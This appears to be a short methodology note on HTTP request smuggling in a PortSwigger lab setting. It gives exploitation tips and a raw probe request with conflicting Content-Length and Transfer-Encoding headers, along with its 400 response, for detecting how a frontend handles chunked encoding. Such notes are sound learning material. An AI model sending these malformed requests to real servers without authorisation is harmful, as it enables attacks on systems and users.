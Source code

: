 ### Things to keep in mind to successfully exploit http request smuggling attacks.
```
1. Make sure to use HTTP/1.1 before trying to exploit because HTTP/2 doesn't support that.
In the inspector tab in burp , change to HTTP/1.1 from request attributes

2. If you are trying to using CL.TE , make sure you include connection: keep-alive header,
cause the backend server will only include that smuggled part in next request over same connection and
 using connection: keep-alive header will keep connection over same network.
```
### Identify if the frontend is using TE
send the request with  invalid transfer encoding request and see if it respond with bad request. If the response is invalid or bad request then the frontend is rejecting the invalid TE request. So, it confirms TE in frontend
```
POST / HTTP/1.1
Host: 0a9800ec040696b6826d248900930006.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Transfer-Encoding: chunked

3
abc
x

```
response comes back as
```
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
Connection: close
Content-Length: 27

{"error":"Invalid request"}
```
---
### use this picture to identify the type of frontend and backend

![Screenshot from 2023-10-31 18-18-35](https://github.com/Sameer484/methodology/assets/110039044/835c41e8-a5be-4975-a793-29abe1053668)
